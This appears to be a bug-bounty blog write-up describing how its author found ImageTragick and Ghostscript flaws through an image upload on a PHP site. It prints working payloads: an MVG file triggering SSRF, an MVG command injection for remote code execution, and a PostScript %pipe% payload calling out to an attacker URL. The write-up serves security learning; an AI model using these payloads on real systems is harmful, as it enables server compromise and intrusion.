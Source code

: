 ```yaml
---
title: Insecure File Upload Leads to SSRF and RCE
author: Muhammad Adel
date: 2021-011-10 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, writeups]
---
```

## **Introduction**
Peace be upon you all, I am going to share with you a vulnerability which I have found almost a year ago and it is really remarkable for me because it was the first critical vulnerability for me any way let's jump in.

## **ImageMagick**
It is a package commonly used by web services to process images. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP's imagick, Ruby's rmagick and paperclip, and nodejs's imagemagick.. it has been commonly exploited in 2016 when Nikolay Ermishkin from the Mail.Ru Security Team discovered several vulnerabilities in it under the CVEs (**CVE-2016-3714 - CVE-2016-3718 - CVE-2016-3715 - CVE-2016-3716 - CVE-2016-3717).** you can know more information about the vulnerability form here:

![](https://imagetragick.com/)

## **The Finding**
I was testing the target for a couple of days and I was able to find multiple trivial XSS that's gave me an indication that this target didn't tested well before. Also, the target was running with PHP and I love it as Bug Hunter :). I looked for the file upload vulnerability and I started by sending it to burp plugin which test the file upload vulnerability. after some minutes I saw that red message that the target is vulnerable to CVE-2016-3714. great it is time for validating.

### **SSRF via CVE-2016-3718**
I will setup burp collaborator to receive the connection then simply add the following payload and replace with my your web server URL:

```
1
push graphic-context
2
viewbox 0 0 640 480
3
fill 'url(http://example.com/)'
4
pop graphic-context
```

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2FRRICM91g9OJ6HA9gLHTI%2FImagetragick%20CVE-2016-3718_redacted.png?alt=media&token=67ecf899-b8c0-4627-9fa8-745bf4d20843)

### **RCE via CVE-2016-3714**

Now, we have confirmed that it is using the image magic library and it is vulnerable to SSRF so let's try to get RCE.
```
1
push graphic-context
2
viewbox 0 0 640 480
3
fill 'url(https://example.com/image.jpg";|ls "-la)'
4
pop graphic-context
```

I tried it but it didn't give back anything. maybe it is blind?

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2Ferrm4RKgIvm3SHHVxJ2Q%2FImagetragick%20CVE-2016-3718%20Payload.png?alt=media&token=aab34ad1-4c87-4bfe-8bc3-45c130d1893b)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2F0E7YUTHCDpWGo4963XkO%2FCollaborator%20CVE-2016-3718.png?alt=media&token=40aea20d-3428-4a61-86b6-98571a34ffae)

Great it is working perfectly!!

### **RCE via GhostScript**
After digging deeper I found that it is also vulnerable to ghostscript vulnerability which also will allow us to get RCE. let's see the following payload:

```
1
%!PS
2
userdict /setpagedevice undef
3
legal
4
{ null restore } stopped { pop } if
5
legal
6
mark /OutputFile (%pipe%nslookup <url>) currentdevice putdeviceprops
```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MR5KvOL_gXbwMWP6Z6m%2Fuploads%2FhyxVQVe6vG7InHA9B1H7%2FGhostscript%20RCE%20via%20File%20Upload%20redacted.png?alt=media&token=7ec3f68f-dc3d-452d-9c3a-10dc53dd9c36)

## **Conclusion**
I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!